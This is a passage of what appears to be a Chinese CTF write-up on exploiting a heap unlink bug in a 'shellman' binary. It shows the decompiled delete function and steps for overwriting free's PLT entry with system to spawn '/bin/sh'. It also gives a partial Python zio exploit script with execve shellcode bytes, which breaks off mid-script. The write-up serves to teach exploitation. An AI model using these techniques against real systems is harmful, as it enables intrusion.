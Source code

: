 它并没有重新申请一块空间，而是在原空间地址上扩展长度，从而有机会越界写入

最后看看

delete

```
printf("Shellcode number: ");
   v0 = read_int();
   if ( v0 <= 0xFF && (j = 3LL * v0, shell[j] == 1) )
   {
     v3 = qword_6016D0[j];
     --count_shellcode;
     shell[j] = 0LL;
     qword_6016C8[j] = 0LL;
     free(v3);
     result = puts("Successfully removed a shellcode");
   }
```

可以看到它删除时并没有清除node记录里堆块的地址，只是把标志位和长度置零，所以我们就有了一个地址P使得它指向我们的堆地址

##  利用漏洞

1.  构造如下结构实现对node[0].buf地址的修改:
    ![10](/2016/06/16/linux_heap_unlink/10.png)

1.  edit(0),覆盖到node[0],node[2],node[3],利用node[0].buf指向plt.free,node[2].buf指向plt.puts,node[3].buf指向’/bin/sh\0’

2.  list读取plt的地址,通过计算free与system的地址偏移来计算system的地址,edit(0)把system的地址写到free,最后调用delete(3)来调用system(‘/bin/sh)

```
from zio import *

host='127.0.0.1'
port=2333
t=zio(('./shellman.1'))
shellcode="""\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"""
def newshell(length,string):
    t.writeline('2')
    t.read_until(':')
    t.writeline(str(length))
    t.read_until(':')
    t.writeline(string)
    t.read_until('>')

def editshell(no,length,string):
    t.writeline('3')
    t.read_until(':')
    t.writeline(str(no))
    t.read_until(":")
    t.writeline(str(length))
    t.read_until(':')
    t.writeline(string)
    t.read_until('>')

def delshell(no):
    t.writeline('4')
    t.read_until(':')
    t.writeline(str(no))
    t.read_until('>')

def listshell():
```